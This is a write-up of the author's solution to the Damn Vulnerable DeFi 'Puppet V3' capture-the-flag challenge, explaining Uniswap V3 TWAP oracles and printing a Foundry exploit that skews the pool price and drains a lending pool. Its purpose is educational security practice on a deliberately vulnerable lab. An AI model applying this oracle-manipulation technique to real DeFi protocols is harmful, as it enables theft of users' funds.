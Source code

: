```yaml
---
title: CTF - Puppet V3 Solution
description: My solution to Damn Vulnerable DeFi CTF on Uniswapv3 TWAP oracles.
---
```

My solution for the challenge Puppet V3 & understanding **Uniswap V3** prices on a time weight average.

**First, lets discuss the key points to understand how to break this challenge:**

This challenge introduced Uniswap v3 prices calculation and how it now tracks prices at the end of a block. This removes the possibility of in-block price manipulations, (flashloan attacks) ;). And it does this by tracking observations, basically the last price event info.

Reference::[Uniswap v3 book](https://uniswapv3book.com/)

- Observations are slots that stores a recorded prices, timestamp, and activation flag.
- Cardinality, number of activated observations.
- TWAP are used mainly to support calculation of prices in periods where there were no observations.

Note: this challenge was a nice opportunity to contribute to the [Foundry version of the Damn Vulnerable Defi challenges](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry) originally created by the Open Zeppelin team. I have proposed my update to add this challenge in Foundry.



## Puppet v3

[Challenge link...](https://www.damnvulnerabledefi.xyz/challenges/puppet-v3/)


**Now Let's take at the victim contract**
We have a pool where users can borrow its Token in exchange for providing 3 times WETH, the pool uses uniswapV3 TWA to fetch and calculate the token price with respect to eth based on the last observation.
`````
pragma solidity =0.7.6;

contract PuppetV3Pool {
    uint256 public constant DEPOSIT_FACTOR = 3;
    uint32 public constant TWAP_PERIOD = 10 minutes;

    IERC20Minimal public immutable weth;
    IERC20Minimal public immutable token;
    IUniswapV3Pool public immutable uniswapV3Pool;

    mapping(address => uint256) public deposits;

    event Borrowed(address indexed borrower, uint256 depositAmount, uint256 borrowAmount);

    constructor(IERC20Minimal _weth, IERC20Minimal _token, IUniswapV3Pool _uniswapV3Pool) {
        weth = _weth;
        token = _token;
        uniswapV3Pool = _uniswapV3Pool;
    }

    /**
     * @notice Allows borrowing `borrowAmount` of tokens by first depositing three times their value in WETH.
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and the borrowed token have the same number of decimals.
     * @param borrowAmount amount of tokens the user intends to borrow
     */
    function borrow(uint256 borrowAmount) external {
        // Calculate how much WETH the user must deposit
        uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);

        // Pull the WETH
        weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

        // internal accounting
        deposits[msg.sender] += depositOfWETHRequired;

        TransferHelper.safeTransfer(address(token), msg.sender, borrowAmount);

        emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount);
    }

    function calculateDepositOfWETHRequired(uint256 amount) public view returns (uint256) {
        uint256 quote = _getOracleQuote(_toUint128(amount));
        return quote * DEPOSIT_FACTOR;
    }

    function _getOracleQuote(uint128 amount) private view returns (uint256) {
        (int24 arithmeticMeanTick,) = OracleLibrary.consult(address(uniswapV3Pool), TWAP_PERIOD);
        return OracleLibrary.getQuoteAtTick(
            arithmeticMeanTick,
            amount, // baseAmount
            address(token), // baseToken
            address(weth) // quoteToken
        );
    }

    function _toUint128(uint256 amount) private pure returns (uint128 n) {
        require(amount == (n = uint128(amount)));
    }
}
`````
**Validation Constraints**
- Block timestamp must not have changed too much, no more than 115 sec.
- Player has taken all tokens out of the pool


**Attack Brainstorm**

- Right away I saw the pragma version and think on overflow/underflow anything, but not so fast Tincho has protected well even its numbers down-casting with the last function of the contract.
- The borrow function seems simple and updates correctly before transfer out, so I won't spend much time trying to game this one.
- I see the hardcoded **TWA time 10** and seems suspicious to me, docs: `Number of seconds in the past to start calculating the time-weighted observation`
- Then the required eth calculation function is using the oracle, if we can someway get the oracle to return a very cheap price, the ETH can drain easily.
    - So we take a look at user inputs for these one and maybe the passing `type(uint256).max` can reset the price to zero. But the oracle will revert on underflow, so not here... :(
- Now, we could swap all of our DVT token for as much WETH token as possible
    - this swap will lower the pool's WETH reserves in comparison to the DVT, but the oracle is protected against same block manipulations, so we need another transaction that will use this last **observation** of the price.
    - Now, I remember that on the book it's mentioned that anyone can change the next cardinality of the observations, and since we know in this case we are the only ones trading in this pool, we might as well set the cardinality to take the next time only 2 observations.
    - `uniswapPool.increaseObservationCardinalityNext(2)` at the beginning of the challenge setUp we see that Tincho set this to 40 after init the pool.
    - If this works, we could bypass the TWA at which the contracts pull it's prices. So we must do a set of transactions within 10 minutes, or in other words we will simulate short-term volatility.
    - Ideally we could `warp` the vm or (increase block timestamp) with foundry to swap and fast forward within the next 100 sec, so the oracle will pick the last observation which left the price of the token at a very discount rate.


### POC Solution

For the complete set up and solution code please refer to my foundry repo [here](https://github.com/danielles0xG/damn-vulnerable-defi-foundry/blob/master/test/Levels/puppet-v3/PuppetV3.t.sol).
````
  function testExploit() public {
       
        // Swap all out dvt for as much weth possible
        dvt.approve(address(uniswapRouterAddress), type(uint256).max);
        ISwapRouter(uniswapRouterAddress).exactInputSingle(
            ISwapRouter.ExactInputSingleParams(
                address(dvt),
                address(weth),
                3000,
                address(attacker),
                block.timestamp,
                ATTACKER_INITIAL_TOKEN_BALANCE, // 110 DVT TOKENS
                0,
                0
            )
        );

        // fast forward 100 seconds
        vm.warp(block.timestamp + 100);
        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        weth.approve(address(lendingPool), quote);

        // Drain the pool
        lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        validation();
    }
````
Note that if we don't increase the timestamp the observation will remain in the first slot, meaning the 3x ratio price.

````
        uint256 quote1 = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("quote: ", quote1); //   quote:  3000000000000000000000000

        vm.warp(block.timestamp + 100);

        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("quote: ", quote); //    quote: 1135374091135900626
````

**Thanks and I hope you find value in this post.**

